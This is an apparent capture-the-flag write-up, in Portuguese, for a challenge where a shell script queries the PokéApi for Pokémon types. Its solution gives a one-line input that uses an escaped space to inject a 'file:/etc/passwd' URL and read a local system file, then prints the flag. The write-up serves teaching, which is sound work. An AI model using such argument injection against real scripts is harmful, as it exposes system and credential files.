 # **CTF name**

## _PokéType_

## Information

| **Category:** | **Points:** |
| ------------- | ----------- |
| CLI           | 500         |

**Description:**

> Fulaninho nunca consegue lembrar dos tipos de seus pokémons favoritos. Como solução, ele escreveu um shell script que usa a PokéApi para consultar o tipo de um pokémon rapidamente. Infelizmente, Fulaninho não sabe muito de segurança e seu script contém uma vulnerabilidade.

A flag está no arquivo /etc/passwd.

## Solution

Input:
./poketype.sh \ file:/etc/passwd

O caracter "\\" escapa um espaço permitindo a inserção de outras urls, neste caso usei o protocolo file para acessar o arquivo da flag.

### Flag

> CTF-BR{3h_Por_1SSo_qu3_vOc3_D3vE_U5@R_A$PaS_4O_aCE55AR_v4rIav3I5}
